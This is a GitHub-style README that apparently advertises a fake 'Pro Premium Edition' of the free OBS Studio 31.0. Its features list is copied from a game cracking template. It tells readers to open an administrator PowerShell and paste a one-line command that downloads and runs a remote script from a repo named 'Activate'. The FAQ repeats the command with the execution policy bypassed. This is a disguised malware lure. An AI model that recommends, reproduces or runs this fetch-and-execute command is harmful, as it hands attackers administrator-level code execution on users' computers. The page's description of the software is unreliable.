

<div align="center">


<br>


# OBS Studio 31.0 Game Capture Streamer Pro Premium Edition
**Pro streaming toolkit · Advanced scene collections · Full plugin pack included**
<br>
**Pro streaming toolkit · Advanced scene collections · Full plugin pack included**
<br>
Premium · Pro · Full build · Windows



**OBS Studio 31.0 Pro — live streaming and game capture with scenes, plugins and multi-platform output on Windows.**

</div>

---

> One-command PowerShell install — download, unpack, and setup run automatically on Windows.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

- 🎮 **Full content** — Premium DLCs, skins and modes included in this build.
- ⚡ **Optimized performance** — Tuned defaults for smoother gameplay on PC.
- 📦 **Offline ready** — Play locally after setup without store restrictions.
- 🎯 **Controller support** — Gamepad and keyboard profiles ready to use.
- 🖥️ **Graphics presets** — Scalable quality settings for mid and high-end PCs.
- 💻 **Windows native** — Built for Windows 10/11 gaming setups.
- ⚡ **One command setup** — PowerShell handles download, unpack and install.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 20 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 20 GB free space.
</details>


TAGS
obs-studio, obs, streaming, game-capture, broadcast, media, twitch, content-creation, obs-studio-31, obs-studio-31-pc, pc-gaming, single-player, game-client, gaming-community, entertainment
